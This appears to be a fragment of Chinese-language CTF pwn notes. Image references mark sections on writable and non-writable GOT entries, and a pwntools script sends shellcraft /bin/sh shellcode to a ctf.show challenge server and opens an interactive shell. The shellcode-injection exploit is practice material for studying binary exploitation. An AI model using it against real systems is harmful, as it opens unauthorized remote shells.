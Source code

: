 ![GOT可写](image.png)

### GOT不可写 
#### 抛异常
![GOT不可写](image-1.png)

## PWNTOOLS-shellcraft

```python
from pwn import *

context.log_level = 'debug'

#io = process('./pwn')
io = remote("pwn.challenge.ctf.show", 28112)

shellcode = asm(shellcraft.sh())

io.sendline(shellcode)
io.interactive()
```

